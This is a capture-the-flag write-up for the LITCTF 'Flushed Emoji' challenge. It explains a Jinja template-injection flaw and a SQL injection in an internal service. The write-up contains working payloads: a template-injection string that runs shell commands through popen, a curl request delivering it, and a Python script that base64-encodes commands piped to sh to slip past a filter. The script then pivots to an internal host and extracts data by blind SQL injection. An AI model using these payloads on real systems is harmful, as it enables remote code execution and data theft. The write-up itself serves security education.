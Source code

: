 ## Flushed Emoji

This challenge has several vulnerabilities. The first vulnerability is related to the password field. If you check the code, you will notice the vulnerability of SSTI
```python
return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)");
```

For example, if you enter the following payload
```python
{{2+2}}

4
```

There is also a sql injection vulnerability in the `data-server` project
```python
x = "SELECT * FROM users WHERE username='" + username + "' AND password='" + password + "'"
```

Now we use SSTI to execute command
```python
{{config['__class__']['__init__']['__globals__']['os']|attr('popen')('ls')|attr('read')()}}
```

```
curl -X POST "http://litctf.live:31781" -d "username=&password={{config['__class__']['__init__']['__globals__']['os']|attr('popen')('ls')|attr('read')()}}"


ok thank you for your info i have now sold your password (main.py
requirements.txt
run.sh
static
templates
) for 2 donuts :)
```

If we print the main.py file, we will encounter the address http://172.24.0.8:8080/runquery, this address is not accessible from the outside, and this shows that we do not have access to the data-server program from the outside.

In the next step, we should send requests containing sql to the address http://172.24.0.8:8080/runquery

```python
import requests
import base64

char = list(".*+,!#$%&0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-{}")

url = "http://litctf.live:31781"
internal_url = "http://172.24.0.8:8080/runquery"

ssti_payload  = "{{config['__class__']['__init__']['__globals__']['os']|attr('popen')('%s')|attr('read')()}}"
rce_payload   = "echo {}| base64 -d | sh"
python_script = "python3 -c \"import json,requests;print(requests.post('%s', data=json.dumps({'username':'%s','password':'0'}), headers={\\\"Content-type\\\": \\\"application/json\\\"}).text)\""
sql_payload   = "flag\\'and (Select hex(substr(password,1,{})) from users limit 1 offset 0) = hex(\\\'{}\\\')--"

flag = "LITCTF{"

for c in range(len(char)):
	for i in range(len(char)):
		tmp = flag+char[i]
		
		script = python_script % (internal_url, sql_payload.format(len(flag)+1,tmp))
		script = str(base64.b64encode(script.encode("utf-8")), "utf-8")
		payload = ssti_payload % rce_payload.format(script)
		
		r = requests.post(url, data={"username":"","password":payload})
		if "True" in r.text:
			flag += char[i]
			print("FLAG : "+ flag)
			break
```

There are a few points in the script above
	Because there is no curl in the server, we had to use a python script to send the request.
	The server filters the character “.” , to bypass this filter I coded the script with base64.
